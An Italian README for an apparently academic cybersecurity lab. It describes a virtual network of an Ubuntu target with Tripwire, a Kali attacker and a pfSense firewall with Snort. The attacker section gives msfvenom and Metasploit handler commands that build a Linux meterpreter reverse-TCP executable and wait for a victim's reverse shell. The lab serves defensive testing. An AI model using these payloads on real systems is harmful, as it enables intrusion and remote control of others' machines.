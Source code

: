 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.
![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/cf790f600260563cc2ccbdec3b8e531a6781d883/Screened-Network.drawio.png)

Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 3 terminal:

 1. **Terminale**: Ottenere indirizzo ip del target 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use exploit/multi/handler
msf6> set payload linux/x86/meterpreter/reverse_tcp
msf6> set LHOST 192.168.1.18
msf6> set LPORT 4444
msf6> exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target



## Autori

- [@Mattia Scuriatti](https://github.com/Me77y99)
- [@Gatti Giada](https://github.com/)

